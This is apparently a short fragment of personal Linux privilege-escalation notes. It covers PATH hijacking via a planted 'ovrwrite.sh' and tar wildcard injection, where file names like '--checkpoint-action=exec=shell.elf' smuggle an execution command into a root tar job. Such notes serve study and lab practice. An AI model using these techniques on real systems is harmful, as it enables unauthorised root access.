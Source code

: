 



#### path environment variable

- first path it will look for is /home/user if absolute path is not given
- lets create ovrwrite.sh in /home/user directory

![image-20200814214341599](linuxPrivesc.assets/image-20200814214341599.png)

**shell**

![image-20200814215918560](linuxPrivesc.assets/image-20200814215918560.png)



#### tar wildcards

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
